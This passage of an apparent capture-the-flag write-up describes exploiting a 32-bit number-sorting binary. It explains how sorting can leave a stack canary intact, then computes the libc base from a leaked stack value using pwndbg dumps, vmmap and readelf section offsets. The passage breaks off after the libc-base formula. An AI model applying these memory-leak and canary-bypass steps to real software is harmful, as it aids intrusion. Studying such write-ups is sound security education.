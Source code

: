 This function is simply to sort the numbers in the increasing order. It only exchanges the value but not its address after sorting. That is, to bypass canary, we only need to ensure that the numbers won’t change its order after sorting.

### Exploit

1. leak the address of ***libc***

Input ‘aaaaa’ for name.

```
pwndbg> x/20wx 0xffffd04c
0xffffd04c:	0x61616161	0x0000000a	0xffffd31a	0xf7e114a9
0xffffd05c:	0xf7fbc748	0xf7fb9000	0xf7fb9000	0x00000000
0xffffd06c:	0x56555601	0x565557a9	0x56556fa0	0x00000001
0xffffd07c:	0x56555b72	0x00000001	0xffffd144	0xffffd14c
0xffffd08c:	0x3a30ff00	0xf7fe59b0	0x00000000	0x56555b2b
```

By taking a look at the information saved in stack, ‘aaaaa\n’ is saved at **0xffffd04c** and the address of the **0xf7fb9000** is saved at **0xffffd064**. Use ***vmmap*** to check the memory, we can find that the address of *libc* is **0xf7fb9000**. Since $$0xffffd064 - 0xffffd04c = 24$$, by naming ‘a’*24, we can leak out the wanted address. As *\n* was added in the end will overwrite the **00** in **0xf7fb9000** to be **0xf7fb900a**, *libcAddr* will be $ leakAddr - 0xa $.

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
......
0xf7de1000 0xf7fb6000 r-xp   1d5000 0      /lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb7000 ---p     1000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb7000 0xf7fb9000 r--p     2000 1d5000 /lib/i386-linux-gnu/libc-2.27.so
0xf7fb9000 0xf7fba000 rw-p     1000 1d7000 /lib/i386-linux-gnu/libc-2.27.so
......
```

(use *readelf -S libc_32.so.6* to check the address of got.plt)

```
$ readelf -S /lib/i386-linux-gnu/libc-2.27.so 
There are 70 section headers, starting at offset 0x1d9a48:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
	......
  [32] .got              PROGBITS        001d7e5c 1d6e5c 000188 04  WA  0   0  4
  [33] .got.plt          PROGBITS        001d8000 1d7000 000038 04  WA  0   0  4
  [34] .data             PROGBITS        001d8040 1d7040 000eb4 00  WA  0   0 32
  ......
```

Therefore, locally the *libcbaseAddr* can be achieved by the following formula.  

<p align = center><I> libcbaseAddr = 0xf7de1000 = 0xf7fb9000 - 0x001d8000 = libcAddr - got.plt offset </I></p>

d
